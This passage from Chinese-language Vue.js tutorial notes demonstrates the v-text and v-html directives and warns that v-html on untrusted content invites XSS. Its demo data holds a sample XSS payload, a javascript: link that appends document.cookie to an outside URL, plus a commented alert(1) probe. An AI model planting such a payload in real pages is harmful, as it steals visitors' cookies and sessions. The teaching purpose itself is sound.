 ```html
      -->
      <div v-text="name"></div>
      <div v-text="str">我还在干嘛</div>
    </div>
    <script>
      Vue.config.productionTip = false
      const vm = new Vue({
        el: '#root',
        data: {
          name: '成都您好!!!',
          //str会当成整个字符串来识别
          str: '<h3>您好啊!!<h3>',
        },
      })
    </script>
  </body>
</html>
```
### 23.8 v-html
::: tip 注意
1. 作用,向指定节点中渲染包含html结构的内容
2. 与插值语法的区别
    1. v-html 会替换调节点所有的内容, {{xxx}}则不会
    2. v-html 可以识别html结构
3. v-html有安全性问题
    1. 在网站上动态渲染任意HTML是非常危险的, 容易导致XSS攻击(XSS攻击就是盗取浏览器cookie)
    2. 一定要在可信的内容上使用v-html, 永远不要在用户提交的内容上使用
:::
```html
<!DOCTYPE html>
<html lang="en">
  <head>
    <meta charset="UTF-8" />
    <title>内置指令</title>
    <script type="text/javascript" src="../js/vue.js"></script>
    <script type="text/javascript" src="../js/dayjs.min.js"></script>
  </head>
  <body>
    <!--准备好一个容器-->
    <div id="root">
      <div v-text="name"></div>
      <div v-text="str"></div>
      <br /><br />
      <div v-html="name"></div>
      <div v-html="str"></div>
      <div v-html="str2"></div>
    </div>
    <script>
      Vue.config.productionTip = false
      const vm = new Vue({
        el: '#root',
        data: {
          name: '成都您好!!!',
          //str会当成整个字符串来识别
          str: '<h3>您好啊!!<h3>',
          // str2:'<a href="javascript:alert(1)">兄弟, 我找你想要的资源了!!<a>'
          //document.cookie  获取浏览器所有cookie,  有的浏览器有安全限制, 有https
          str2: '<a href=javascript:location.href="http://www.baidu.com?"\
           + document.cookie>兄弟, 我找你想要的资源了!!<a>',
        },
      })
    </script>
```